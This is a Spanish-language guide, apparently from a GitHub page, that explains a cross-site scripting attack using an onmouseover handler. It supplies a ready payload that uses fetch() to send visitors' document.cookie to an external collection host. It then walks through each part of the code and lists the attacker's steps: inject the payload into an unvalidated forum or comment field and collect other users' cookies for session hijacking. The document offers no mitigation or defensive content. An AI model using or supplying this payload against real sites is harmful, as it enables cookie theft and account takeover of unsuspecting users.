### Documentación para inyección de código JavaScript usando `onmouseover`

#### Descripción:

Este documento describe cómo realizar una inyección de código JavaScript mediante el evento `onmouseover` en una página web vulnerable. El objetivo es interceptar y enviar cookies del usuario a un servidor externo cuando el usuario pase el ratón sobre un elemento HTML.

#### Objetivo:

El objetivo de esta técnica es aprovechar una vulnerabilidad de **Cross-Site Scripting (XSS)** para robar cookies o información sensible del usuario. Esta información puede ser enviada a un servidor controlado por el atacante para su posterior uso, como la suplantación de identidad o el secuestro de sesiones.

#### Código para la inyección:

```bash
`<div onmouseover="fetch('https://datagrabber.onrender.com/grab?data=' + encodeURIComponent(document.cookie))">     Pasa el ratón por aquí </div>`
```

#### Desglose del código:

1. **Elemento interactivo (`<div>`)**: El código inyecta un `<div>` en la página web que ejecutará JavaScript cuando el usuario pase el ratón por encima.
    
2. **Evento `onmouseover`**: El atributo `onmouseover` se activa cuando el usuario pasa el ratón sobre el área del elemento `<div>`. Este evento puede ejecutarse en diferentes elementos como `<img>`, `<a>`, `<button>`, entre otros.
    
3. **`fetch()`**: Se realiza una solicitud HTTP utilizando la función `fetch()`. Esta función envía una petición GET al servidor externo con las cookies del documento (obtenidas a través de `document.cookie`).
    
4. **`encodeURIComponent(document.cookie)`**: La función `encodeURIComponent()` se usa para codificar las cookies del usuario de manera segura para ser enviadas a través de la URL. Esto evita problemas con caracteres especiales en las cookies que podrían romper la URL.
    
5. **URL maliciosa**: En este caso, la información sensible (las cookies) se envía a `https://datagrabber.onrender.com/grab`, un servidor controlado por el atacante. El servidor podría registrar las cookies y utilizarlas para llevar a cabo ataques adicionales, como el secuestro de sesiones.
    

#### Ejecución:

1. El atacante encuentra una página web vulnerable que no valida o escapa adecuadamente el código introducido por el usuario (por ejemplo, comentarios o campos de texto).
    
2. El atacante inyecta el código anterior en un campo de entrada de usuario que se renderiza directamente como HTML en la página web.
    
3. Cuando un usuario pasa el ratón sobre el elemento inyectado (en este caso, el `<div>`), el navegador ejecuta el código `onmouseover`, lo que envía una solicitud HTTP con las cookies del usuario al servidor externo.
    

#### Ejemplo de escenario:

Un atacante puede aprovecharse de un foro o sección de comentarios donde los datos introducidos por los usuarios no se validan adecuadamente. Si el atacante inyecta el código descrito en el campo de comentarios, cualquier otro usuario que pase el ratón por encima del comentario verá que sus cookies se envían al servidor del atacante.
